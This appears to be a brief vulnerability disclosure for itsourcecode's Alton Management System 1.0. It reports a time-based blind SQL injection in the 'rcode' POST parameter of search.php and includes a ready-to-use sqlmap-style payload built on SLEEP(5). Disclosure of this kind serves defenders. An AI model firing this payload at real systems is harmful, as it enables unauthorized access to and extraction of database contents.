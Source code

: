 # Vendor

itsourcecode

# Product

Alton Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2020/02/altonsystem.zip

# Description

The rcode parameter can be passed in for querying on the "search.php" page, but due to the code's lax filtering of this parameter, it can lead to SQL injection.
<img width="1098" alt="image" src="https://github.com/user-attachments/assets/aa5fce7c-660e-441c-a3d0-42f00c93639f">

# Poc
```
Parameter: rcode (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: rcode=1' AND (SELECT 7363 FROM (SELECT(SLEEP(5)))sBIE) AND 'vFRq'='vFRq
```
